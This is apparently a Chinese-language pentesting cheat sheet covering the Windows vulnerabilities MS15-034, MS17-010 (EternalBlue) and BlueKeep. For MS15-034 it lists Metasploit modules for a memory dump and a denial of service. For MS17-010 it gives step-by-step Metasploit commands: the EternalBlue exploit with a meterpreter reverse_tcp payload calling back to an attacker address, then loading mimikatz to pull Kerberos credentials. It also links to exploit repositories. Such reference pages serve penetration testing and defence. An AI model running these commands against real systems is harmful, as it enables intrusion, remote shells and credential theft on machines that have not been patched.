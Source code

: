 **MS15-034 & CVE-2015-1635**
- POC | Payload | exp
    - [MS15-034 Checker](https://pastebin.com/ypURDPc4)

- 相关文章
    - [MS15-034/CVE-2015-1635 HTTP远程代码执行漏洞分析](http://blogs.360.cn/post/cve_2015_6135_http_rce_analysis.html)

- MSF 模块
    ```bash
    use auxiliary/scanner/http/ms15_034_http_sys_memory_dump    # 读取服务器内存数据
    use auxiliary/dos/http/ms15_034_ulonglongadd    # 进行 dos 攻击
    ```

**CVE-2017-0143 - CVE-2017-0148 && MS17-010**
- MSF 模块
    ```bash
    # 发现,检测
    use auxiliary/scanner/smb/smb_ms17_010
    set rhosts [ip]
    run

    # 命令执行,不回弹
    use auxiliary/admin/smb/ms17_010_command
    set command whoami

    # 使用 payload 连上去
    use exploit/windows/smb/ms17_010_eternalblue
    set payload windows/x64/meterpreter/reverse_tcp
    set lhost [ip]      # 设置回弹地址
    set rhosts [ip]
    run

    # msf 下加载 mimikatz 模块
    load mimikatz
    kerberos
    ```

- 修复工具
    - ["永恒之蓝"勒索蠕虫漏洞修复工具](https://www.qianxin.com/other/wannacryfix)

**bluekeep & CVE-2019-0708**
- 相关文章
    - [RDP Stands for "Really DO Patch!" - Understanding the Wormable RDP Vulnerability CVE-2019-0708](https://securingtomorrow.mcafee.com/other-blogs/mcafee-labs/rdp-stands-for-really-do-patch-understanding-the-wormable-rdp-vulnerability-cve-2019-0708/)
    - [worawit/CVE-2019-0708](https://github.com/worawit/CVE-2019-0708/blob/master/NOTE.md)

- POC | Payload | exp
    - [zerosum0x0/CVE-2019-0708](https://github.com/zerosum0x0/CVE-2019-0708)
    - [robertdavidgraham/rdpscan](https://github.com/robertdavidgraham/rdpscan)
    - [Ekultek/BlueKeep](https://github.com/Ekultek/BlueKeep)
    - [mekhalleh/cve-2019-0708](https://github.com/mekhalleh/cve-2019-0708) (实测、蓝屏)
    - [Cyb0r9/ispy](https://github.com/Cyb0r9/ispy)
    - [k8gege/CVE-2019-0708](https://github.com/k8gege/CVE-2019-0708) - 批量检测工具
    - [cbwang505/CVE-2019-0708-EXP-Windows](https://github.com/cbwang505/CVE-2019-0708-EXP-Windows) - Windows版单文件exe版
    - [nccgroup/BKScan](https://github.com/nccgroup/BKScan)
